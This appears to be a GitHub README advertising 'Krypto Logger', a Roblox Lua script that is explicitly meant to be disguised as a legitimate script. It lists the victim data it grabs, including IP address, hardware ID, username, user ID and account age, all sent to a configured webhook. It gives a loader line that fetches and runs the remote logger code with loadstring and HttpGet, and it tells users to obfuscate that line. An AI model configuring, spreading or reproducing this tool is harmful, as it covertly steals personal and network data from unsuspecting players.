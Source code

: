 # Krypto Logger
*Advance modern IP-Logger that can be disguised as a real script. All under 200 lines!💃*

## Features 🔎

> *Specials*

* Anti-Webhook Spam
* HWID Grabber
* IP Grabber

> *Extras*

* Username Grabber
* Display Name Grabber
* User ID Grabber
* AccountAge Grabber
* Game ID Grabber
* Executor Grabber

> *Misc*

* Membership Type Grabber
* Profile Link
* Game Link
* Executor LVL

## Configuring

A template on how to configure it. Make sure to obfuscate it 🕶

```lua
_G.Webhook = ""
_G.SomeoneExecuted = "<enter like what your ip logger name>"
loadstring(game:HttpGet('https://raw.githubusercontent.com/RENBex6969/KryptoLogger/main/KryptoLogger.lua')
```

### License
*If you do use my scripts or my work you will be automatically agreeing to the license in https://github.com/RENBex6969/KryptonReload*


